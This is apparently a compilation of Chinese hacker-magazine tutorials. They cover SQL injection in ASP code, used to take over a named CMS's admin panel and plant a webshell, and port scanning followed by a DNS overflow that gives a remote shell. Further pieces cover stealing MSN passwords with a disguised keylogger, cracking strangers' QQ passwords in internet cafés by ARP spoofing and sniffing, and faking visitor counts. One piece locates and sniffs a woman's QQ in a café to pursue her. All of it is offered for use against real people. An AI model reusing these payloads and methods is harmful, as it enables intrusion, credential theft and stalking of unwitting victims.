id = request("id")
set conn=Server.CreateObject("ADODB.Connection")
conn.Open("provider=Microsoft.Jet.OLEDB.4.0;Data Source=" & "E:\web\mdb.mdb")
set rs=Server.CreateObject("ADODB.Recordset")
strSQL = "select * from admin where id=" & id
%>
```

## 菜鸟学堂

```asp
rs.Open strSQL,conn,3
response.write(rs(2))
%>
```

这个代码看起来是不是很熟悉啊，和我们在讲数据库知识的时候，数据库的连接文件是不是很像啊。以前还有人抱怨前面的知识没有用，这下用到了吧，忘了的菜菜请回去后好好地翻翻前面的笔记。

`id = request("id")`，取得提交的 id 变量赋值给 id；`set conn=Server.CreateObject("ADODB.Connection")`，创建一个数据库连接对象，想要连接数据库就得创建这个对象；`conn.Open`，打开数据库连接，也就是连接数据库；`Provider=Microsoft.Jet.OLEDB.4.0;Data Source=" & "E:\web\mdb.mdb"`，数据库连接的字符串，其中 `Microsoft.Jet.OLEDB.4.0` 表示要连接 Access 数据库，`E:\web\mdb.mdb` 就是数据库的绝对路径；`strSQL = "select * from admin where id=" & id`，要执行的 SQL 查询语句；`rs.Open`，执行 SQL 查询；`response.write(rs(2))`，把对应 id 的用户名显示出来。

表面上看这是一个很正常的程序，很多 ASP 方面的教科书中也是这样写的，这也是注入漏洞广泛流行的一个原因。但是问题就在这儿出现了：

```asp
id = request("id")
strSQL = "select * from admin where id=" & id
```

由于 id 是我们自己定义提交的内容，可以任意构造 id 的值提交，而在下面的语句中直接把 `request("id")` 取得的值用 `&` 连接符连接到了 SQL 查询语句后面，这就是问题的所在。

我们举个例子来说明，如果我们提交 `http://127.0.0.1/ceshi.asp?id=1`，在 ASP 页面中经过：

```asp
id = request("id")
strSQL = "select * from admin where id=" & id
id=1
strSQL = "select * from admin where id=1"
```

似乎这样很正常，没有什么异常的地方，但是别忘了“注入”，就是在“正常”的代码中插入“不正常”的代码。继续来提交 `http://127.0.0.1/ceshi.asp?id=1 and 1=1`。在 ASP 页面中经过：

```asp
id = request("id")
strSQL = "select * from admin where id=" & id
id=1 and 1=1
strSQL = "select * from admin where id=1 and 1=1"
```

这样提交的“不正常”的代码（`and 1=1`）就插到了“正常”的 SQL 查询语句中。如果把 `and 1=1` 换成别的代码，道理是一样的，换成上次课介绍的注入语句就能猜解数据库的内容了，这就是“注入的原理”。

把 `ceshi.asp` 放到 IIS 的主目录中，在浏览器中访问，分别提交 `and 1=1` 和 `and 1=2`，如图4、图5，确实存在注入漏洞，我们如果使用 HDSI 检测的话，结果如图6所示。


知道了注入的原理，就可以自己读 ASP 程序的代码来寻找代码中的漏洞了。

“那是不是很复杂啊？”菜虫虫同学带着满脸的崇拜问道。

“其实这是很简单的问题，想当年你们最崇拜的悟空老师也仅仅是知道了这个原理后，就发现了大名鼎鼎的 bbsxp 的注入漏洞”。

“啊？原来我们心中的偶像帅锅也是利用这么简单的知识啊！我也要去挖洞了。”

“这么简单的知识，悟空老师还炫耀了那么久，原来做黑客，可以无耻到这种地步。”

“大家别急，我们今天的课程还有一些知识呢，等课后再去自己挖洞吧。”毒药看着大家急不可耐的样子，教鞭用力地敲了敲黑板。

### 三、实例分析 ASP 代码的注入漏洞

分析 ASP 代码的注入漏洞，通常是去专门的 ASP 源码下载网站，下载一套程序，然后分析里面 ASP 文件的代码。如果存在字符过滤不完全引起注入漏洞的页面，构造合适的 URL，手工或使用工具检测，就能得到数据库中的内容了。

小菜没有悟空老师那么厉害，我们不找 bbsxp 论坛的漏洞，先找个简单的目标来练手，等以后熟练了再对付它。我选了一套“爱雪儿图文系统 Ver4.06.01”的程序来检测一番，逐个文件来分析。有的地方看不懂没关系，因为你们的 ASP 知识还不够，我们的目标也不是成为 ASP 程序员，只要能看懂数据库操作的那几句就够了，其它的等以后有时间再仔细研究。

找啊找啊找啊找，终于让我找到了一个小小的漏洞，漏洞代码在 `shownews.asp` 文件中，找到下面代码：

```asp
<%
dim newsID,Title,titleurl,about,Author,Original,AuthorID
OriginalID, UpdateTime, Content, hot, SpecialName, SmallClassName
click, Image, username
NewsID = request("NewsID")
sql="select * from News where checked=1 and NewsID=" & NewsID
rs.open sql, conn, 1, 1
if rs.eof then%
```

和上面介绍的不是很相似呢？`NewsID = request("NewsID")` 直接取得提交的 `NewsID` 变量，然后 `sql="select * from News where checked=1 and NewsID=" & NewsID` 把 `NewsID` 变量直接连接到了 SQL 查询语句中，注入漏洞就重现江湖了。

“我终于也能自己发现漏洞了，我终于从脚本菜鸟进化成脚本黑客了。”小菜的梦想终于实现了。

“别急别急，我们仅仅通过分析找到了漏洞，还没验证我们的分析是否正确呢”。

在前台随便找一个新闻，得到 URL 地址为 `http://127.0.0.1/ax/shownews.asp?newsid=1656`，这样结合上节课的知识，就能手工破解管理员的信息了。提交 `http://127.0.0.1/ax/shownews.asp?newsid=1656 and 1=1` 和 `http://127.0.0.1/ax/shownews.asp?newsid=1656 and 1=2` 来检测是否为注入点，结果返回如图7、图8所示界面。两次返回的界面不同，说明确实存在注入漏洞，证实了前面分析是正确的。


为了操作方便，我们使用工具来检测吧，把地址填到 HDSI 中，检测结果如图9所示。得到了管理员的密码，居然还是明文形式的，省得去破解了。

后台地址为 `http://127.0.0.1/ax/admin_login.asp`，使用得到的管理员的用户名和密码登录进后台，如图10。发现后台有一个“ASP 在线编辑”功能，我们可以编辑网站的所有文件了，太方便了，随便编辑一个文件，修改为 ASP 木马的代码，然后保存，轻松就得到了 webshell，如图11。


利用刚才发现的漏洞，再结合以前介绍的“google hack”知识，是不是又是一次丰盛的 webshell 大餐呢？

### 四、其它类型注入漏洞

上面重点介绍了数字型的注入漏洞，我们知道注入漏洞还有字符型、搜索型等等。其实其它类型注入漏洞和数字型注入漏洞在原理上是一样的，都是对特殊字符过滤不完全引起的，所以同样构造注入语句的时候要考虑 SQL 查询语句中的 `'` 或者 `%`。下面分别简单进行介绍。

#### 1. 字符型

例如发现类似 `http://www.xxx.com/showinfo.asp?name=poison` 的地址存在注入漏洞，一般 `showinfo.asp` 中会出现类似下面的代码：

```asp
name = request("name")

strSQL = "select * from admin where name='" & name & "'"
rs.Open strSQL,conn,3
```

在这些代码中，`name` 变量也没有经过过滤就被放到了 SQL 查询语句中，当然就出现了注入漏洞。但是大家注意到没有，在上边的 SQL 查询语句中多出了两个单引号，这样在构造注入语句的时候就要考虑到前后引号闭合的问题了。

我们需要适当地改变注入语句的格式，例如提交 `http://www.xxx.com/showinfo.asp?name=poison' and '1'='1`。在 ASP 页面中 `name=poison' and '1'='1`，SQL 查询语句就变为了 `select * from admin where name='poison' and '1'='1'`，闭合了前后的单引号，结果当然返回“真”了。

提交 `http://www.xxx.com/showinfo.asp?name=poison' and '1'='2`，原理是一样，也是为了闭合前后的单引号，这两句也是检测有无“字符型注入漏洞”最经典的检测语句了。具体的检测过程为 `http://www.xxx.com/showinfo.asp?name=poison' and (select count(*) from admin)>0 and '1'='1`，然后把其中的 `and (select count(*) from admin)>0` 换成上次课介绍的注入语句，就能手工破解字符型注入点了。

#### 2. 搜索型

很多网站为了方便网友，都有搜索的功能，如果搜索的参数没有经过必要的过滤，也是可能发生注入漏洞的。一般搜索页面中的 SQL 查询语句是这样的：

```asp
key = request("key")

strSQL = "select * from NEWS where key like '%" & key & "%'"
rs.Open strSQL,conn,3
```

上边的 SQL 查询语句中多出了两个 `%`，这样在构造注入语句的时候就要考虑到前后闭合的问题。为了闭合的问题，在搜索的地方填入关键字 `%’ and 1=1 and ’%’=’`（关键字是我们要搜索的内容），SQL 查询语句就变成了 `select * from NEWS where key like '%关键字%' and 1=1 and '%'='%'`，前后的 `%` 都闭合了，这就满足了注入条件。把 `and 1=1` 换成相应的注入语句就能进行下一步注入了。

搜索型注入的经典注入检测语句为：

```text
关键字%' and 1=1 and '%'='
关键字%' and 1=2 and '%'='
```

目的就是为了闭合其中的 `'` 和 `%`，不难看出和字符型注入在本质上是没有什么区别的。

小菜们终于明白了注入漏洞的原理，觉得也算半个脚本小子了，在脚本边缘徘徊的小菜们终于看到了一丝希望……（后续为经验与感想性文字）


## 菜鸟帅徒行
### 阿布——拜师学艺第一招之扫描（上）

月黑风高夜，杀人放火时！同样是一个月黑风高的夜晚，某高校女生宿舍里突然传来“啊”的一声尖叫：“我的电脑啊，我的照片、日记，怎么都变成这样了呀！”……（叙事正文）

燕妹突然看到了一本《黑客X档案》，脑海中立马想起了前些日子自己的电脑被黑客入侵的情景，又是愁上心头。对于黑客及与黑客相关的东西，燕妹妹以前是从来不屑一顾的……（叙事正文续）

有好多人在提问题呀，燕妹妹立刻注册了一个名叫“燕赤侠”的 ID，加入了小菜的队伍，并发帖将自己的一些疑问，包括一些根本就不知道是什么意思的黑客术语贴了出来。不一会儿，一个名叫“阿布”的 GG 就给她详细回复了问题，好热心的 GG 呀，而且看回复，似乎水平也挺高的了。费了九牛二虎之力，几天后，燕妹妹终于弄到了阿布的 QQ 号，立马添加阿布为好友。

作为 X 网站的管理员，阿布本来是不会随便通过那些菜鸟的请求的，但这一个很特殊，因为是 MM，虽然还是一个很拉风的网名“燕赤侠”。我猜，难不成是《倩女幽魂》里的燕赤侠。太有个性了，阿布就喜欢有个性的 MM，于是就通过了她的请求。在把阿布加进自己 QQ 的好友列表后，燕妹妹就把自己电脑被人入侵的前后经过和对黑客技术的向往以及想学习黑客技术的想法告诉了阿布，阿布对燕妹妹的遭遇深感同情，回答道：“好吧，以后你有什么不会的问题就直接在 QQ 里问我吧，只要我知道的就一定教你。”燕妹妹一听阿布回答得这么爽快，就说道：“阿布哥哥这么好，干脆我拜你为师好了！”阿布愣了一下，心里立刻乐开了花，能够收一个 MM 做徒弟，这可是前世修来的福分呀！于是立刻答应了。燕妹妹心里也非常高兴，才几天就认了一个黑客高手做师父，看来自己学习黑客技术不再愁了：“那，师父，咱们开始吧！第一课你打算教我什么呢？”

这个还真是问题，阿布思考了一下，说道：“中国有句俗话叫做‘知己知彼，百战不殆’，一个黑客，在入侵别人电脑前也需要了解对方尽可能多的信息，比如操作系统使用的是什么，开放了什么服务（端口），都有什么漏洞等等，然后入侵者才可以对症下药，利用对方系统存在的安全漏洞入侵进去。可以说入侵的过程通常是目标信息的收集（扫描探测）—入侵—上传木马或后门程序来控制对方的电脑。这就是大致的过程，而这些过程都是结合大量的工具来实现的。因此，对于一个黑客初学者来说，最好是按照上边的入侵步骤来学习相关黑客工具的使用。”

阿布又继续说道：“扫描和刺探是一个黑客应该掌握的最基本技术，它们最重要的作用就是锁定目标和收集目标主机信息。首先是锁定入侵目标，确定入侵目标后，就是收集被攻击方的有关信息，当然是越详细越好。知己知彼，才能百战不殆嘛。”

这时，燕妹妹插嘴问道：“那么，要收集什么信息呢？”阿布回答道：“这些基本信息包括：系统版本、服务端口、漏洞检测、弱口令等信息。”燕妹妹又说道：“这么多要收集的信息，收集完那要多长时间呀，我们该怎么办呢？”阿布说道：“这个工作仅仅依靠手工是无法快速高效地完成的，最好的办法是通过扫描工具快速地帮助我们完成这个庞大的工作，从而节省大量的时间，同时也提高了扫描的精确度。”

燕妹妹又继续问道：“那么，那个端口服务是什么？”阿布说道：“网络中的计算机都必须和外部计算机进行通讯，这些通讯是由计算机中安装的服务完成的。而这些服务要和外部进行通讯就需要端口的帮助，因此可以说端口代表了开放的服务。我们可以通过扫描来确认对方提供了哪些服务。比如常用的有：21端口主要用于 FTP 文件传输协议服务；23端口主要用于 Telnet 远程登录服务；25端口为 SMTP 简单邮件传输协议服务器所开放，主要用于发送邮件；53端口为 DNS 域名服务器所开放，主要用于域名解析；80端口是为 HTTP 超文本传输协议开放的，主要用于在 WWW 服务上传输信息的协议；110端口是为 POP3 邮件协议服务开放的；135端口主要用于使用 RPC 远程过程调用协议并提供 DCOM 分布式组件对象模型服务；137端口主要用于 NetBIOS Name Service；139端口是为 NetBIOS Session Service 提供的；554端口默认情况下用于 RTSP；1755端口默认情况下用于 MMS；1080端口是 Socks 代理服务；3389端口为远程终端服务；4000端口是 QQ 客户端开放端口；8000、5631端口是 pcAnywhere 等远程控制软件端口。”

就听燕妹妹急着喊道：“师父慢点，你说慢点，太多了，我还没记住呢！那知道了对方开放的服务又能怎样，就可以入侵了吗？”阿布摇摇头说道：“早着呢！哪有这么简单，了解对方的服务是因为很多服务软件都不是完美的，有的服务软件存在安全漏洞，我们可以利用这些漏洞来入侵对方；比如 Serv-U 的 5.0 远程溢出漏洞。”

燕妹妹点点头说道：“既然这样，那你就快教我怎么扫描吧！”阿布喝了口水，说道：“我先教你端口扫描之王 SuperScan 的使用（图1），它是由 Foundstone 开发的一款免费的扫描器，功能十分强大，而且速度非常快；精准率很高，最高版本是4.0，我们这里讲解的是3.0，我个人觉得4.0不如3.0实用。”


图1

燕妹妹急着说道：“我才不管3.0还是4.0呢，师父你就快点开始吧！”阿布瞪了燕妹妹一眼：“你急什么啊！这不开始了吗？扫描嘛，当然需要一个目标，这个目标就是想入侵的服务器或者个人电脑。那么如何定位目标呢？可以使用 IP 地址、主机名或者网址（其实主机名和网址都会被程序转换成 IP 地址，在 SuperScan 最上面的输入框中输入主机名或者网址，然后点击‘查找’就可以转换成 IP 地址），因为在网络上的所有通讯都是以 IP 为地址的。既可以扫描单个 IP，也可以扫描整个 IP 段。只需要在 SuperScan 的 IP 框中设置起始 IP 和终止 IP 就可以。如果起止 IP 都一样就表示扫描单独一个 IP（图2）。


图2

SuperScan 还提供了从文件中读取 IP 地址（图3），这种方式可以大大提高扫描的针对性（文件中 IP 地址必须是每行一个）。”燕妹妹低着头说道：“等等再讲，我先试试看，好了，那接……”

## 菜鸟学堂

“下来呢？”阿布端着水杯继续说道：“确定好目标后，下一步就要做好扫描端口的设置了。打开右上角的‘端口列表’（图4）；在这里 SuperScan 给我们预先设置好了很多常见的端口及其对应的服务名（如果你需要扫描特殊的端口，可以通过左上角进行修改，别忘了保存列表哦）。而且 SuperScan 为了更灵活地进行扫描探测，把端口做了分类处理，有针对木马端口的 `trojans.lst`，有针对软件硬件开放端口的 `hensss.lst`、`scanner.lst`，当然你也可以制作出属于自己专用的端口列表来。”


图5


图3


图4

燕妹妹又照着也设置了一遍才说道：“我设置好了，可以开始扫描了吗？”阿布又摇摇头说道：“还差点，我们再回到主界面，接下来设置扫描的类型。SuperScan 为我们提供了灵活的扫描方式。

- 扫描所有列表中的端口：扫描列表中设置的全部端口。
- 扫描所有在列表中选择的端口：可以针对某些需要，选择多个不连续的端口。
- 列表中定义：可以扫描列表中连续的端口。
- 所有端口定义：可以扫描所有连续端口。

以上就是对端口的设置。”

燕妹妹抬起头说道：“这回总可以了吧？”阿布喝了口水，说道：“然后还要根据自己的网速情况调整扫描速度和超时设置。

- 节省自己的网络带宽（防止扫描过程中自己的网速锐减）。
- 扫描速度越快，越容易误报。
- 如果服务器设置在一定时间内的连接数，那就会被防火墙检测到。

‘只扫描 PING 后有回应的’这个选项可以让我们大大提高对 IP 段的扫描速度，左栏 PING 通常会被扫描器认为是没开机或者不存在，也就不需要做后续的扫描工作了，从而加快了扫描速度。针对某些主机做了防 PING 处理，则需要取消掉这个选项；另外提示你一下：内网通常开 PING，外网通常关 PING。”阿布不等燕妹妹提问，就又讲道：“你可以执行第三步扫描了，现在万事俱备，谁也不欠谁的风！开始扫描吧（图5）。”燕妹妹答应了一声，就自己扫描了起来。

过了不久，阿布说道：“看来有人对我很有想法，以后要小心了，对了，你刚才扫描的谁，不会是我吧？”燕妹妹笑着说道：“嘿嘿！猜对了。”阿布有些哭笑不得，想不到这个 MM 徒弟居然第一堂课就拿自己这个老师来开刀，以后可得小心着点了。于是便问道：“你使用的 QQ 是珊瑚虫版的吗？”燕妹妹“嗯”了一声问道：“你怎么知道的，难不成你也入侵了我的电脑？”阿布马上接着说道：“师父是好人，大大的好人，你看我有这么坏吗？”然后又说道：“其实，我是猜测你使用的是珊瑚虫版的 QQ，因为珊瑚虫版的 QQ 才显示好友的 IP 地址的！”燕妹妹眼睛一转：“唉，奇怪啊！”阿布见她有疑惑便问道怎么了，燕妹妹回答道：“不行啊，刚才我扫描你，几乎什么都没扫出来啊？”阿布笑了笑说道：“当然了，我电脑的设置非常好，用不着的服务一个都没有打开，这样才足够安全啊。”

燕妹妹托着腮说道：“也对，师父你也是牛人，不像我菜得不能再菜了。那我换个目标扫描，你等我一会儿。”五分钟后 QQ 上燕妹妹的头像又闪动起来：“扫出来的都是什么啊？乱七八糟的，真难看。”阿布看了看截图说道：“莫着急，听师父来给你讲解讲解，图中1区的这个绿色的小对勾表示这台主机能够 PING 通，图中2区代表的是扫描出来的对方开放的端口，图中3区则显示了对方主机的响应。”阿布又继续说道：“总结一下，扫描很简单，扫描一般分三步走。第一步：确定目标。第二步：设置扫描参数。第三步：扫描并分析扫描报告。”阿布说完又喝起水来。燕妹妹等了一会儿，见阿布停顿着喝水，不理她了，于是又问道：“师父继续啊，完了？”阿布抬起头说：“完了！”燕妹妹却郑重地说道：“我还以为有多难呢！原来这么简单，简直就是小儿科，我会了，接下来可以入侵了吧！”阿布差一点把嘴里的水喷出来，顿了顿说：“你还差得远呢，即使是扫描你现在就不过关，你没发现你得到的信息很少吗？”燕妹妹蛮有理地说：“你不是说完了吗？骗人！你骗子。”

阿布还不住声地继续说道：“不同的扫描工具扫描得到的信息详细程度不尽相同，所以要多个工具扫描，尽量多地得到尽量详细的目标主机的信息，Do you know? 再给你介绍一个很好用的扫描工具 NScan，NScan 的扫描速度相当快，虽然它是一个国外的软件，但是使用起来很简单。记住我们的三步走就没有问题了！我给你一个我简化过了的工具，使用的时候点击‘Options’，在‘Localization’加载选简体包自带的‘chinese.lng’（图6）。”燕妹妹说：“对不起师父，误解你了，你再讲解一下吧！我虽然懂了，但是还是不很熟悉。”阿布顿了一下说：“就知道你会这么说，还是按照我们的扫描三步走来讲，第一步，确定一个扫描的目标。NScan 为我们提供了几个选项来确定目标类型（图7）。”

Host Range（主机范围）：自由指定一个 IP 段，可以进行大范围扫描。

Single Host（单个主机）：对单独的主机进行扫描。

Host List（主机列表）：从文件中获取需要扫描的主机地址，用于特定多台主机的扫描。

后面两个暂时没有什么用，就不进行讲解了。

燕妹妹瞪着大眼说：“呀！界面真难看，委屈一下自己吧！看看有没有你说的那么神。”阿布微微一笑说：“你事儿还不少呢！别看它界面难看，它可是十分实用的，速度和 SuperScan 有的一拼。废话不多说，咱们继续讲，第二步，确定要扫描的端口（端口设置）（图8）。NScan 同样提供了几个选项来帮助我们定位。”

- **Port Ranges List（自定义范围）**：只可指定单个端口或者一个端口范围（1-139：表示扫描 1 至 139 端口，使用逗号分开）。
- **Windows Default Services（Windows 服务端口）**：Windows 系统默认服务所开放的端口，例如 135、445。
- **Known Services（已知的服务端口）**：已知的服务，也含 Windows 服务所开放的端口。
- **User Defined Services（用户自定义的服务端口）**：用户自定义的服务所开放的端口。
- **Known+User Defined Services（已知的 + 自定义服务端口）**：两者的综合体。
- **All Defined Services（全部已定义的服务端口）**：全部已定义的服务所开放的端口。
- **All Defined Services+Port List（已定义 + 列表服务端口）**：两者的综合体。

程序还提供了针对日志文件的（普通信息、网络未通、网络超时、总结摘要、详细信息、完整信息）6 种设置来保存各项日志文件。

燕妹妹摇摇头，不好意思地说道：“没看出来，它的设置还挺全的嘛，很人性化啊！”阿布讲得口都干了，喝了口水又说道：“第三步，开始扫描，NScan 的扫描速度相当快（图9）。而且把端口默认对应的服务也列了出来，喏？看这个开了 445 和 53，似乎是 DNS 服务哦。上个月你杂志中不是刊登过最新的 DNS 远程溢出漏洞的利用吗。”

“耶，好哎！”燕妹妹兴奋地大叫一声：“有漏洞”。阿布吓了一跳，说道：“你搞什么？一惊一乍的，知不知道会吓死人的。”

“嘿嘿。”燕妹妹兴奋地说道：“对不住了，我太高兴了，有溢出漏洞，那你给我演示一下呗！求求你了。”阿布得意地说：“看在你求我的份上，就给你演示一下吧，免得你一个劲地吵我。我们使用溢出工具先检测一下，执行 dns -ns 10.0.2.2，果然存在漏洞。溢出它，执行 dns -tz 2000all 10.0.2.2 1027。OK！然后就是通过 TELNET 连接到对方主机了。执行 telnet 10.0.2.2 1100，直接获得了对方的系统权限了（图10，图11）。”

```bash
dns -ns 10.0.2.2
dns -tz 2000all 10.0.2.2 1027
telnet 10.0.2.2 1100
```

燕妹妹看完说道：“入侵就这么简单！真不敢相信，太简单了吧！”阿布骄傲地说：“当然了，就是这么简单，不要把入侵想象成多么神秘的事情，任何人都能做到的，你也可以。”……

（上半部分为对话与讲解内容，介绍了通过工具与 IP 数据库进行查询和扫描的步骤）

（文章中涉及到的工具 SuperScan、NScan、纯真 IP 数据库、SSPort、L-ScanPort，已经收录于光盘中）

## MSN密码我来看

微软的 MSN 是世界上使用非常普及的一款即时通信工具……今天就交给各位菜鸟一个不安分的玩法——偷看 MSN 密码。

那么，MSN 的密码到底是如何偷看到的呢？先来看一个最“快捷简单”的方法，使用绿色软件 MessenPass。文中说明了其支持的即时通信工具、汉化方式与基本使用流程。

看到没有，Google Talk 和 Windows Live Messenger 都可以查看到账号和密码……并解释了为何某些账号只显示用户名不显示密码（与本机是否保存密码有关）。

接下来介绍第二位主角 MSNpassVol.2：填写邮件地址（建议 Gmail）后可接收记录内容。文中提到该工具会记录输入内容，甚至可记录邮件、文档输入等，但也存在一些不足。

1. 如果密码是复制粘贴的，不会被记录到。  
2. 在任务管理器中可以看到 MSNpassVol.2 的进程，需要一定伪装。  
3. 如果选择“保存用户名和密码并自动登录”，则可能什么也记录不到。

怎么样才能更好地看到别人的密码呢？建议两招并用：先用 MessenPass 查看，再让 MSNpassVol.2 补位，从而弥补单一工具的不足。

（本文所涉及到的 MessenPass 和 MSNpassVol.2 已收录到光盘中）

## 简简单单刷QQ空间

记得黑客 X 档案在第 11 期上介绍了很多刷 QQ 空间人气的方法，其中有很多方法都是非常实用的。相信使用 TT86 的工具来刷 QQ 空间人气的方法是很多小菜喜欢的吧，但是使用 TT86 来刷 QQ 空间人气很容易因为访问数字问题而被腾讯封掉自己的 QQ 空间，今天就给大家介绍一种利用代码来刷 QQ 空间的新方法。

我们的“刷人气”行动不需要任何工具，只需要一段代码就可以。首先，打开自己的 QQ 空间，以我自己的 QQ 空间为例（http://284861693.qzone.qq.com，大家有空也可以来我的空间坐坐），如图1。

来看看现在的人气，点击“人气资料”下的“统计”，我们可以看到“今天访问人数”是 13 人，“历史访问人数”是 1236 人（图2）。不过这些数据只是暂时的，稍后的数据会让你吃惊的。废话不多说了，点击空间右上方的“自定义”按钮，然后在空间的右边出现了一个菜单（图3）；点击“新建模块”弹出模板选择界面（图4）。

选择左上角的“图文模块”，点击后进入了图文模块的设置界面（图5）。在“添加标题”内输入“@VCP@”，然后在“添加图文项”的“标题”内输入“@VCP@”，完成后再在“描述”内输入以下代码：

```text
@VCP(100);
@VCM(100);
@DVP(100);
@DVM(100)
```

- `@VCP`：访问增加100
- `@VCM`：访问密乘100
- `@DVP`：日访问增加100
- `@DVM`：日访问密乘100

根据以上条件，就是说前面的东西不能改变，但是括号内的数字可以随自己的情况来改变。我们按照以上步骤输入好代码，以及验证码，然后点“确定”。这样，一段刷 QQ 空间人气的代码就添加上了。再次重新进入 QQ 空间，点“个人资料”下的“统计”，怎么样，我们的访问人数是不是翻了 N 倍啊（图6）！

## 网吧QQ密码破解与聊天监听

如何破解 QQ 的密码，这是许多小菜最关心的问题了。常常在论坛上看到一些朋友在问：可不可以帮我破解一个 QQ 密码？那么今天我就给大家介绍一个可以在网吧中破解任何一个 QQ 号密码的软件——QQ 密码极速破解器。

这个软件可以破解本机或使用 HUB 的局域网中的 QQ 密码，如果局域网使用的是交换机或路由器的话则需要借助 ARP 欺骗，监听欲破解的电脑的网络数据。QQ 密码极速破解器运行后会先监听 QQ 的登录数据，然后破解传输数据中加密的密码。

首先打开 ARP 欺骗工具“WinArpSpoofer”（如果不能使用的话请先安装 WinPcap 驱动），点击“Scan”，将局域网内的所有电脑扫描出来，然后再选择我们想要欺骗的主机，也可以全部选中，不过为了避免网络出错，最好不要全部选择。选择好后，点击“Start”，将程序最小化，千万不能关闭（图1）。接着，我们在 CMD 命令提示符下运行 `qqsniffer.exe`，就可以看到程序默认参数情况了（图2）。

后选择监听的网卡（图3），监听开始后等待对方登录（图4）。如果密码是 10 位以内纯数字，只要 3-4 分钟即可成功（图5）。一般只要选择的破解方式与对方密码类型相同都可破解。

程序没有给出所有参数，不过没有关系，默认情况下是无参数破解方式。

- `qqsniffer.exe`：无参数（小写字母/大写字母/数字/特殊字符混合）
- `qqsniffer.exe 1`：小写字母
- `qqsniffer.exe 2`：纯数字
- `qqsniffer.exe 3`：数字+小写字母
- `qqsniffer.exe 4`：大写字母
- `qqsniffer.exe 5`：小写字母+大写字母
- `qqsniffer.exe 6`：数字+大写字母
- `qqsniffer.exe 7`：小写字母+数字+大写字母
- `qqsniffer.exe 8`：特殊字符
- `qqsniffer.exe 9`：小写字母+特殊字符
- `qqsniffer.exe 10`：数字+特殊字符
- `qqsniffer.exe 11`：小写字母+数字+特殊字符
- `qqsniffer.exe 12`：大写字母+特殊字符
- `qqsniffer.exe 13`：小写字母+大写字母+特殊字符
- `qqsniffer.exe 14`：数字+大写字母+特殊字符
- `qqsniffer.exe 15`：小写字母+数字+大写字母+特殊字符

在破解前，必须保证程序运行后，网吧里别人的 QQ 开始登录。输入命令：`qqsniffer.exe 2`，使用纯数字方式进行破解（图3）。

在本机测试时还能监听到聊天记录（图6），但使用 ARP 欺骗后不行。通过这个软件又给我们盗 QQ 开辟了一条新的道路。

> （本文所涉及到的 QQ 密码极速破解器程序和 WinArpSpoofer 已收录到光盘中）

## QQ交友中心照片任意修

通过 QQ 交友中心可以上传照片。由于平台会自动分辨真假照片，普通复制照片上传往往不行。本文介绍如何把修改后的图片上传上去。

在 QQ 交友中心点击右上角的“个人管理”，然后再点“上传修改照片”就可以上传了（图1）。不过要想吸引眼球的话，可得找一张又帅又酷的照片传上去才行。想上传一张从网上复制下来的靓照，可又被无情地拒绝了（图2），没办法，只有自己动手想办法来突破它的限制了，这才是黑客精神嘛！

我打开百度进行搜索，输入“帅哥”“美女”之类的关键词，从大把的靓照中挑选了一张自己比较中意的图片，点击鼠标右键，然后选择“另存为”保存了下来。我把保存下来的图片改了文件名后重新进行上传，还是提示为“假照片”。到底腾讯是如何验证照片的呢？既然可以肯定不是人工验证的，那么它就应该是一个验证程序。我想了 10 秒钟，然后马上从“附件”中打开“画图”，打开那张照片，使用画笔工具随便地在她的下巴上加上几笔（胡子），然后保存（图3），再次提交上传，这回竟然成功地上传了（图4）。想不到这么简单地就绕过了腾讯的验证。大家在修改的时候，完全可以更隐蔽些（比如在头发上画，一样可以上传成功的）。

不过，也不要高兴得太早了，因为腾讯还有人工审核的那一关要过的，人工审核是在 48 小时内完成的。当然，如果你是高级用户的话，就不用过人工审核这一关，直接就可以公布在交友页面了。接下来就是耐心等待了，两天之后，再去看看，呵呵，照片已经静静地挂在上面了（图5）。有时候也不会通过审核的，这就要看我们的运气了。不过经我测试，只要不是什么大牌明星的照片，一般都是可以通过的。

## 一、踩点，盯上网吧中的MM

### 1. 定位，查出网吧中MM的IP地址

网吧内的电脑为了方便网管的管理，通常其 IP 地址都会被设置得很有规律。首先查看一下自己使用的电脑的 IP 地址，方法及查看 IP 地址的工具很多，最简单的是打开 CMD 命令提示符，执行 `ipconfig /all` 命令，就可以查看到自己的网络信息了，其中“IP Address”后跟的就是自己的 IP 地址（图1）。

假设自己的 IP 地址为“192.168.1.8”，那么查看一下自己电脑在网吧中的编号，一般为了寻机（因为通常 192.168.1.1 这个地址会被网关来使用，而网关通常也就是主机，是不会随便让别人来使用的）。按照这个小规律就可以很容易地确定 MM 的 IP 地址了，假设 MM 是在 20 号机上网，那么她的 IP 地址很可能就是“192.168.1.21”。至于如何知道 MM 的电脑编号，只管装作路过去看看就知道了。当然 MM 的电脑编号也有可能是别的，不过 IP 地址和机号总是有规律可查的，相信这点难不倒大家。

### 2. 捕捉，嗅出MM的QQ号

既然已经查出了 MM 的 IP 地址，接下来的事情就好办了，我拿出泡 MM 时必用的查 QQ 号工具——“Win NT/Win2000/Win XP 工具箱”，利用它的嗅探功能，可以迅速查出整个局域网中正在使用的 QQ 号码。运行“Win NT/Win2000/Win XP 工具箱”后，点击“QQ之眼”选项，程序会自动嗅探并显示出当前网吧内正在使用 QQ 的主机 IP 地址，并且可以查出每个 IP 对应主机上正在登录聊天的 QQ 号码（图2）。点击一下“IP地址”栏，将 IP 地址按顺序排列，找到 MM 的 IP 地址，就可以看到 MM 的 QQ 号码了（如果网吧中使用的是交换机的话，可以套用上期杂志《网吧QQ密码破解与聊天监听》一文中所使用的方法，先使用 ARP 欺骗后再使用这个工具进行嗅探）！

### 二、持久战，甜蜜的攻击

黑客的攻击可不只是远程溢出、注入、盗库什么的，对于 MM 来讲，发动一场甜蜜的攻击比使用单纯的技术更具有杀伤力……（介绍通过 QQ 快捷回复等方式批量发送“甜言蜜语”内容的思路）。

其实，对于这些早就准备好的成百上千条甜言蜜语，一个快捷发言就能够解决问题。我们可以使用一个制作“QQ 快捷回复菜单”的工具……（介绍设置、添加、修改分类与内容、随系统启动等）。

添加了足够多的甜言蜜语后，关闭对话框，在聊天窗口中点击箭头图标，可在下拉菜单中看到条目并发送；也可右键发送到聊天编辑框后再编辑发送……

### 三、到手，清除后患

就这样，你 QQ 好友里的 MM 会越来越多……对于一些久不上线的 QQ，如果要一个个删除常会遇到问题。这里介绍使用迷你 QQ（MiniQQ）等命令行工具进行批量快速删除 QQ 好友的操作。

### 1. 将MM分组

为了便于操作，先新建一个分组（如“TEMP”），在好友列表中批量选择要删除的 MM 并移动到该分组。

### 2. 导出要删除MM名单

